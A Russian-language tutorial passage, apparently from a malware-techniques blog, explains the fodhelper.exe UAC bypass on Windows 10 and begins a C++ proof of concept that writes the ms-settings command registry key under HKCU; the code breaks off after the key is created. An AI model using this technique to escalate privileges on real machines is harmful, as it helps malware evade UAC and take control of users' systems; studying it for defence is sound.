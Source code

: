 `fodhelper.exe` был представлен в Windows 10 для управления дополнительными функциями, такими как региональные настройки клавиатуры. Его расположение: `C:\Windows\System32\fodhelper.exe`, и он подписан Microsoft:      

![av-evasion](./images/101/2023-06-20_23-50.png){width="80%"}      

Когда запускается `fodhelper.exe`, монитор процессов начинает фиксировать процесс и раскрывает (среди прочего) все операции чтения/записи в реестре и файловой системе. Одной из самых интересных активностей является доступ к реестру, несмотря на то, что некоторые ключи или значения не обнаруживаются. Поскольку нам не требуются особые разрешения для изменения записей, ключи реестра `HKEY_CURRENT_USER` особенно полезны для тестирования того, как может измениться поведение программы после создания нового ключа реестра.       

`fodhelper.exe` ищет `HKCU:\Software\Classes\ms-settings\shell\open\command`. Этот ключ по умолчанию отсутствует в Windows 10:       

![av-evasion](./images/101/2023-06-20_23-58.png){width="80%"}      

Таким образом, когда вредоносное ПО запускает `fodhelper` (как мы знаем, Windows-бинарник, который позволяет повысить привилегии без запроса UAC) в процессе со средним уровнем целостности, Windows автоматически повышает `fodhelper` с уровня Medium до High integrity. Высокопривилегированный `fodhelper` затем пытается открыть файл `ms-settings` с использованием его обработчика по умолчанию. Поскольку вредоносное ПО с уровнем целостности Medium захватило этот обработчик, повышенный `fodhelper` выполнит атакующую команду в процессе с высоким уровнем привилегий.      

### практический пример

Давайте создадим PoC для этой логики. Сначала создадим ключ реестра и установим значения - наш этап модификации реестра:     

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, 
KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
"successfully create reg key\n");

// set the registry values
```